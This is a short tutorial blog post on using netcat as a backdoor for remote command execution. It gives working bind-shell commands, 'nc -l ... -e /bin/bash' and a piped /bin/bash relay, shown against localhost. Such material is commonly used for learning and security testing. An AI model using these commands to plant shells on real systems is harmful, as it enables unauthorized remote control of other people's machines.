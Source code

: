 ```yaml
---
layout: post
title:  "Use 'nc' cli command as backdoor"
author: dave
date:   2023-12-20 15:30:59 +0200
categories: [Reversing, *nix Security]
tags: [Reversing, *nix Security, Networking]
published: true 
---
```


## Synopsis
Netcat (or nc) is a command-line utility that reads and writes data across network connections, using the TCP or UDP protocols. It is one of the most powerful tools in the network and system administrators arsenal, and it as considered as a Swiss army knife of networking tools.

Netcat is cross-platform, and it is available for Linux, macOS, Windows, and BSD. You can use Netcat to debug and monitor network connections, scan for open ports, transfer data, as a proxy, and more.


### Use 'nc' as backdoor for remote cmd execution
#### The easy way
Earlier the **nc** command supported the **'-e'** flag which allowed the client to execute commands on the server and receive the output. This command flag may not be available anymore today on modern systems (specially macOS). But for completeness here is an example of how to use it.

**Server**

```bash
nc -l 9999 -e /bin/bash
```

**Client**

```bash
nc 127.0.0.1 9999 ls
```
Output on client will be something like:

```bash
Applications
Desktop
Documents
Downloads
Movies
Music
Pictures
...
```

#### The 'old fashioned' way
##### Console on client for output
```bash
nc -l 6968
```

##### Console on server
```bash
nc -l 6969 | /bin/bash | nc 127.0.0.1 6968
```

##### Console on client for sending commands
```bash
nc 127.0.0.1 6969
```

## Credits
- [_linuxhandbook.com_](https://linuxhandbook.com/nc-command/){:target="_blank" rel="noopener"}
- [_linuxize.com_](https://linuxize.com/post/netcat-nc-command-with-examples/){:target="_blank" rel="noopener"}
- [_unix.stackexchange.com_](https://unix.stackexchange.com/questions/352490/is-nc-netcat-on-macos-missing-the-e-flag){:target="_blank" rel="noopener"}